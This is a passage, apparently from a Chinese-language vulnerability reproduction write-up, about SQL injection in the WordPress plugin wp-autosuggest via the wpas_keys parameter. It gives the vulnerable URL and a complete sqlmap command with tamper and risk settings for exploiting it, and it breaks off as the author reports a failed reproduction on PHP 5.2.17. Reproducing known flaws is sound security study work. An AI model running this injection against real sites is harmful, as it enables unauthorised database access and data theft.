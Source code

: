 启用后，退出后台，如下图所示：

![image](img/70fab2438b96021cf36de6a341820963.png)

然后根据exploit-db网站上给出的漏洞详情，我们访问下面的URL：

```
http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1 
```

访问后，网页内容如下图所示：

![image](img/814f68d0230d6b7498ac00d7e61b7113.png)

根据exploit-db网站上给出的漏洞详情，我们也知道了wpas_keys参数存在注入，于是我们可以使用SQLMAP注入神器，对网站进行注入。SQLMAP命令如下：

```
sqlmap.py -u "http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1*" --technique BT --dbms MYSQL --risk 3 --level 5 --tamper space2comment 
```

一开始，笔者使用的时php5.2.17+Apache的环境，结果复现不了，头疼了半天，如下图：

![image](img/67b94c493d0a95b03832ef0e99c43c6e.png)
